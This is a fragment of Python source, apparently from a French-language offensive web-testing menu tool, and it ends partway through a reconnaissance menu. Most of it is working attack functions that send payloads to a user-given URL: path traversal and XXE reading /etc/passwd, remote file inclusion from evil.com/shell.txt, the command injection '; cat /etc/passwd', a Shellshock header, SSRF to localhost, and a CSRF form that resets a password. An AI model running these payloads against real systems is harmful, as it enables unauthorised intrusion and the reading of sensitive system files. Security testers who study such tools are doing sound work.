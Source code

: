def csrf_poc_gen():
    print("Exemple de PoC :\n<form action='http://target.com/change' method='POST'><input type='hidden' name='password' value='hacked'><input type='submit' value='Submit'></form>")

def lfi_tester():
    url = input("URL vulnérable : ")
    payload = "../../../../../../etc/passwd"
    r = requests.get(url + payload)
    if "root:" in r.text:
        print("[+] Vulnérable à LFI")

def rfi_tester():
    url = input("URL vulnérable : ")
    payload = "http://evil.com/shell.txt"
    r = requests.get(url + payload)
    if "shell" in r.text:
        print("[+] Vulnérable à RFI")

def cmd_injection():
    url = input("URL vulnérable : ")
    payload = "; cat /etc/passwd"
    r = requests.get(url + payload)
    if "root:" in r.text:
        print("[+] Vulnérable à Command Injection")

def shellshock_tester():
    url = input("URL cible : ")
    headers = {'User-Agent': '() { :;}; echo vulnerable'}
    r = requests.get(url, headers=headers)
    print("[+] Vulnérable à Shellshock" if "vulnerable" in r.text else "[-] Non vulnérable")

def ssrf_tester():
    url = input("URL vulnérable : ")
    payload = "http://127.0.0.1"
    r = requests.get(url + payload)
    print("[+] SSRF Possible" if "localhost" in r.text else "[-] Non vulnérable")

def xxe_tester():
    print("XXE Payload :\n<!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM \"file:///etc/passwd\" >]><foo>&xxe;</foo>")

def clickjacking_tester():
    url = input("URL cible : ")
    headers = requests.get(url).headers
    if 'X-Frame-Options' not in headers:
        print("[+] Vulnérable à Clickjacking")

# Interface Utilisateur avec le menu stylé
def main_menu():
    while True:
        menu = """
══════════════════════════════════════════════════════════════════
                       🔎 RECONNAISSANCE
══════════════════════════════════════════════════════════════════
[01] Whois Lookup                  [02] DNS Resolver
[03] Reverse IP Lookup             [04] Subdomain Enumeration
[05] GeoIP Lookup                  [06] ASN Lookup
[07] Extract Emails                [08] Extract Links
[09] Header Grabber                [10] Tech Scanner
